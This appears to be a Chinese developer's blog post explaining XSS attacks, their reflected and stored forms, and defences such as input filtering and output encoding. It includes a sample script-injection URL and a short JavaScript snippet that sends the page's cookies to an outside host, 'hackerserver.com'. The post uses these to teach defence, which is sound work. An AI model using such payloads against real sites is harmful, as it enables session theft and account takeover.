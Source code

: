 ```yaml
---
layout: post
title: 你们的系统真的安全吗？你们系统是不是也有这种诡异的情况呢？
date:   2019-09-24 22:14:54
categories: Web安全
---
```


这个文章来源灵感是公司的项目在安全检查的时候，发现了很多 SQL 注入的一些问题还有一些 XSS 攻击问题，SQL 注入我们都是比较了解的，那么什么是 XSS 攻击呢？测试反馈给我的时候我是一脸懵逼呀，现在我们就来说一下什么是 XSS 攻击，以及我们怎么防止它的出现。






## 什么是XSS攻击

我当时听到 XSS 攻击的时候是一脸懵，但是，程序员咱们不就是就是解决问题的嘛，于是打开 Chrome ，百度！

百度百科给出的解释是这样的：

XSS 攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是 JavaScript ，但实际上也可以包括 Java 、 VBScript 、ActiveX 、 Flash  或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和 cookie 等各种内容。


XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器 执行，达到攻击的目的，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的联系人列 表，然后向联系人发送虚假诈骗信息，可以删除用户的日志等等，有时候还和其他攻击方式同时实 施比如SQL注入攻击服务器和数据库、Click劫持、相对链接劫持等实施钓鱼，它带来的危害是巨大的，是web安全的头号大敌。

## XSS攻击类型

1. XSS 反射型攻击，恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。

其实反射型 XSS ,也叫非持久型 XSS ，是指发生请求时，XSS 代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含 XSS 代码，最后浏览器解析并执行。从概念上可以看出，反射型 XSS 代码是首先出现在URL中的，然后需要服务端解析，最后需要浏览器解析之后 XSS 代码才能够攻击。

我们看一下 XSS 攻击他是怎么使用 URL 来进行攻击的。

具体流程：

- 1给2发送一个恶意构造了Web的URL。
- 2点击并查看了这个URL。
- 恶意页面中的JavaScript打开一个具有漏洞的HTML页面并将其安装在2电脑上。
- 具有漏洞的HTML页面包含了在2电脑本地域执行的JavaScript。
- 1的恶意脚本可以在2的电脑上执行2所持有的权限下的命令。

举个例子来说就像是这样的，``` http://localhost:8080/helloController/search?name=<script>alert("hey!")</script>```


2. XSS存储型攻击，恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性，比较常见场景是在博客，论坛等社交网站上，但OA系统，和CRM系统上也能看到它身影，比如：某CRM系统的客户投诉功能上存在XSS存储型漏洞，黑客提交了恶意攻击代码，当系统管理员查看投诉信息时恶意代码执行，窃取了客户的资料，然而管理员毫不知情，这就是典型的XSS存储型攻击。

而 XSS 存储型攻击，也叫持久型 XSS ，主要是将 XSS 代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上 XSS 代码了。最典型的就是留言板 XSS。用户提交了一条包含 XSS 代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有 XSS 代码，就当做正常的HTML和JS解析执行。XSS 攻击就发生了。

这种存储型攻击一般就会用来窃取 Cookie，token，账号和密码这样的数据，

就比如说，我们在页面上写内容的时候，A发了一篇文字，B回复的应该是文字才对，这时候B发送了一段文字，并且在内容里面嵌入了JS的代码，这时候B的JS的代码就会执行，比如在里面窃取你的Cookie等操作，这些都是有可能存在的。

还有的就是有一些网站，在本应该是图片的地方他加上了Src,在你无意中惦记图片的时候，就直接跳转到某个网站下，这些属于其实也是属于XSS攻击的。

就比如说他要获取你的Cookie：
```
var i=document.createElement("img")
document.body.appendChild(i)
i.src = "http://www.hackerserver.com/?c=" + document.cookie

```
就再图片的后面给你加上了这个获取你Cookie的方法，然后你在点击到这个链接的时候，就会把Cookie的信息带出来了。


## XSS攻击需要有哪些条件

1. 需要向web页面注入恶意代码；

2. 这些恶意代码能够被浏览器成功的执行。

也就是说，一旦满足这条件的时候，就会出现XSS攻击这种情况，那么，你的系统安全性将会受到严重的破坏。

## XSS原理

其实XSS攻击最主要发生的地方就是我们的HTML中，因为HTML是一种超文本标记语言，通过将一些字符特殊地对待来区别文本和标记，例如，小于符号（<）被看作是HTML标签的开始，```<title>与</title> ```之间的字符是页面的标题等等。当动态页面中插入的内容含有这些特殊字符（如<）时，用户浏览器会将其误认为是插入了HTML标签，当这些HTML标签引入了一段JavaScript脚本时，这些脚本程序就将会在用户浏览器中执行。所以，当这些特殊字符不能被动态页面检查或检查出现失误时，就将会产生XSS漏洞。

我们说完到底什么是XSS攻击之后，我们该说一下到底应该怎么去防范了。

## 如何防止XSS攻击

1.入参字符过滤

比如说把输入的一些不合法的东西都过滤掉，从而保证安全性。如移除用户提交的的DOM属性如onerror，移除用户上传的Style节点，`<iframe>, <script>，<a>`节点等

2.出参进行编码

像一些常见的符号，如<>在输出的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。例如：对<>做编码如："<"用:"&lt;",">"用:"&gt;"来代替。

3.入参长度限制

xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

4.纯前端渲染

纯前端渲染的过程：

(1).浏览器先加载一个静态 HTML，此 HTML 中不包含任何跟业务相关的数据。

(2).然后浏览器执行 HTML 中的 JavaScript。

(3).JavaScript 通过 Ajax 加载业务数据，调用 DOM API 更新到页面上。

在纯前端渲染中，我们会明确的告诉浏览器：下面要设置的内容是文本（.innerText），还是属性（.setAttribute），还是样式（.style）等等。浏览器不会被轻易的被欺骗，执行预期外的代码了。

但纯前端渲染还需注意避免 DOM 型 XSS 漏洞（例如 onload 事件和 href 中的 javascript:xxx 等，请参考下文”预防 DOM 型 XSS 攻击“部分）。

在很多内部、管理系统中，采用纯前端渲染是非常合适的。但对于性能要求高，或有 SEO 需求的页面，我们仍然要面对拼接 HTML 的问题。

以上就是我想给大家讲述的内容了，如果你们公司的系统还没有做过XSS漏洞检测，那么你就可以适当的把自己的代码修改一下了，毕竟我们不是一点JS代码都不写的，你说呢？

我是懿，一个正在被打击却努力前进的码农,欢迎大家关注我的公众号，懿一，每天为大家送上技术文章，各位看官，你准备好了么？

![](http://www.chuyikeji.cn/image/yi.jpg)